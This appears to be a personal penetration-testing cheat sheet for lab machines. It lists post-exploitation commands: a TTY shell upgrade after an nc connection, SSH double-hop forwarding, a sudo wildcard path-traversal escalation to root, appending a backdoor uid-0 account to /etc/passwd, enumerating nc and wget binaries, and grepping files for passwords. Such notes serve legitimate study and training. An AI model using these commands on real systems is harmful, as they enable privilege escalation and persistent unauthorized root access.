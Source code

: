## ps, only list certain cats

```
ps -e -o user,pid,command
```


## login ssh with custom id_rsa

```
ssh -i id_rsa dexter@10.10.10.216
```

## Easy Pretty bash shell after you connect with nc (yes, this still works well!!!)

```
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
```

use `stty sane` to revert!!!!
---

</br>


## **--> Port Forward and Double Hop with SSH**

```
ssh -L 5555:10.10.10.8:3389 -J dog@192.168.1.12 cat@192.168.122.36

```

##  **Sudo command** as a specific user (run after a sudo -l)

```
sudo -u onuma tar
```

## **Sudo Commnd** file description

```
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*


## This means I can run the "nice" command for everything in the "/notes/" dir, however since we use a "*" this can include ".." thus to get root:

sudo /bin/nice /notes/../bin/bash
```

## Add user to passwd file

```
openssl passwd -crypt -salt salty passwordy


    openssl passwd -crypt -salt xx password

prints xxj31ZMTZzkVA. --> Put this in column two of passwd

    openssl passwd -1 -salt xxxxxxxx password

prints $1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a. --> Put this in column two of passwd

    openssl passwd -apr1 -salt xxxxxxxx password

prints $apr1$xxxxxxxx$dxHfLAsjHkDRmG83UXe8K0. 
```

## Add user to passwd file (easier way)

```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```


## Enumerate for "unique" bins:

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```


## Convert Windows UTF16 files to Linux UTF8

```
echo "windows" | iconv UTF-16LE -t UTF-8

```

## Run less with WINPEAS colors (Bash colors)

```
less -R winpeas.txt
```

## Mount SMB Share to local fs

```
sudo mount -t cifs -o 'username="user", password="password"' //10.10.10.172/Users /mnt/folder
```

## Mount SMB Share for SMB 1.0

```
sudo mount -t cifs -o 'username="admin",password="$weetNess11#",vers=1.0' '//10.11.1.5/C$' /mnt/point/
```

## list kernel modules

```
lsmod
```

## Grep, look for text in files recursivly while ignoring certain file extensions!!!

```
fgrep -nr password --exclude=\*.js *
```